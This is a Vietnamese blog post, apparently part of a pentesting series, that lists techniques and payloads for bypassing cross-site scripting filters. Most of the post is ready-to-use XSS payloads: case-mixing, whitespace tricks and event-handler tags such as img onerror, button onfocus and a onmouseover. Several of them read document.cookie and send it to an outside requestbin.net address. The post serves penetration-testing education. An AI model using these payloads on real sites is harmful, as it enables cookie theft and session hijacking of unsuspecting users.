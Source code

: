 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

```js
<script>alert(1);</script>
```

### Dùng window location

```js
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
```

### Dùng image

```js
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
```

## Các payload sử dụng mask
### Case sensitive

```js
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```js
<script  >alert(1);</script   >
```

* Không dùng thẻ script

```js
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>
```
```js
<video src=1 onerror=alert(1)>
```
```js
<audio src=1 onerror=alert(1)>
```
```js
<img src=1 href=1 onerror="javascript:alert(1)"></img>
```
```js
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```
```js
<video src=1 href=1 onerror="javascript:alert(1)"></video>
```
```js
<input onblur=javascript:alert(1) autofocus><input autofocus>
```
```js
<BODY ONLOAD=alert('XSS')>
```
```js
<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>
```
```js
<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

